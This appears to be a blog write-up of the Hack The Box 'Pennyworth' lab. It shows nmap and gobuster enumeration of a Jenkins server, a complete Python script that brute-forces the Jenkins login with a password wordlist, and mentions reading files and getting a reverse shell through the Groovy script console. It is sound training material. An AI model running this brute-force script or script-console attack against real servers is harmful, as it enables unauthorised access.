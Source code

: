 ```yaml
---
layout: post
title: pennyworth
categories: htb
tags:
- htb
- starting_point
- pennyworth
- jenkins
author: nicoliboli
description: starting point | tier 1 | box 8
date: '2025-07-02 11:57:35 -0400'
---
```

# enumeration

```
$ nmap 10.129.249.185                
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-02 09:00 EDT
Nmap scan report for 10.129.249.185
Host is up (0.099s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy
$ nmap -sC -sV -p 8080 10.129.249.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-02 09:11 EDT
Nmap scan report for 10.129.249.185
Host is up (0.10s latency).

$ nmap -p- --min-rate=1000 10.129.249.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-02 09:01 EDT
Nmap scan report for 10.129.249.185
Host is up (0.100s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 69.39 seconds

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.22 seconds
```

## port 8080

visit the home page with burp running and a proxy setup

![penny_home](/assets/img/penny_home.png)

also look at what `wappanalyzer` has to say about what's running

![penny_wapp](/assets/img/penny_wapp.png)

so we know that we are dealing with a site that uses java, jetty (v9.4.39), and jenkins. run gobuster to see if there are any interesting directories

```
$ gobuster dir -u http://10.129.249.185:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -b 403
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.249.185:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   403
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 2028]
/signup               (Status: 404) [Size: 8211]
/assets               (Status: 302) [Size: 0] [--> http://10.129.249.185:8080/assets/]
/logout               (Status: 302) [Size: 0] [--> http://10.129.249.185:8080/]
/error                (Status: 400) [Size: 6241]
/git                  (Status: 302) [Size: 0] [--> http://10.129.249.185:8080/git/]
/oops                 (Status: 200) [Size: 6503]
/cli                  (Status: 302) [Size: 0] [--> http://10.129.249.185:8080/cli/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

visit the `oops` uri and get the following

![penny_oops](/assets/img/penny_oops.png)

so now i know that the version of jenkins is 2.289.1. googled a bit and found that `admin` is a default account. try logging in with `admin:admin`, but get an error

![penny_invalid_login](/assets/img/penny_invalid_login.png)

# exploitation

didn't really see anything exploit-wise based on the version of jenkins, so i tried to bruteforce the login. i looked at what was happing in `burp` during login and created a python script that sent requests with that same information. i used the session functionality of requests because when i didn't, the `JSESSIONID` cookie didn't populate. i'm not showing the testing that i did, but i always test just one username/password combo and compare, in `burp`, the python requests generated one to the actual request

![penny_login_burp](/assets/img/penny_login_burp.png)

the username `admin` gave me nothing, so i thought maybe `root` might pop something and thankfully it did

```
$ cat req.py          
import sys
import requests
import argparse
from random import randrange
from bs4 import BeautifulSoup

proxy = { "http" : "http://127.0.0.1:8080" }

parser = argparse.ArgumentParser(epilog="ex: python {} -u http://10.129.249.185:8080 -U admin".format(sys.argv[0]))

parser.add_argument('-u', '--url', required=True, help='url')
parser.add_argument('-U', '--username', required=True, help='username')
args = parser.parse_args()

passwords = []
with open("/usr/share/wordlists/rockyou.txt", "rb") as f:
    passwords = f.readlines()

for password in passwords:
    data = { "j_username" : args.username,
            "j_password" : password.decode().strip(),
            "from" : "",
            "Submit" : "Sign in"}

    s = requests.Session()
    s.get(args.url, proxies=proxy)
    r = s.post("{}/j_spring_security_check".format(args.url), data=data, proxies=proxy)
    if r.text.find("Invalid username or password") == -1:
        print("[*] password found!")
        print("[+] {} : {}".format(args.username, password.decode().strip()))
        break

$ python3 req.py -u http://10.129.249.185:8080 -U root 
[*] password found!
[+] root : password
```

![penny_dashboard](/assets/img/penny_dashboard.png)

i had some time to read about jenkins by this point and found [this](https://blog.orange.tw/posts/2019-01-hacking-jenkins-part-1-play-with-dynamic-routing/) post particularly helpful when looking for direction. the jenkins [documentation](https://www.jenkins.io/doc/book/managing/script-console/) gave some good insight too. since i have `Administrator` permissions, i can access the script console and do quite a bit 

![penny_jenkins_docs](/assets/img/penny_jenkins_docs.png)

access the script console at `/script` and see if i can read files via the cmds in the documentation. then see if i can execute code via OrangeTsai's full-access scenario

![penny_shadow](/assets/img/penny_shadow.png)

![penny_uname](/assets/img/penny_uname.png)

had to play around with the reverse shell a bit, but got it with the help of [hacktricks](https://cloud.hacktricks.wiki/en/pentesting-ci-cd/jenkins-security/jenkins-rce-with-groovy-script.html)

![penny_script_revshell](/assets/img/penny_script_revshell.png)

![penny_flag](/assets/img/penny_flag.png)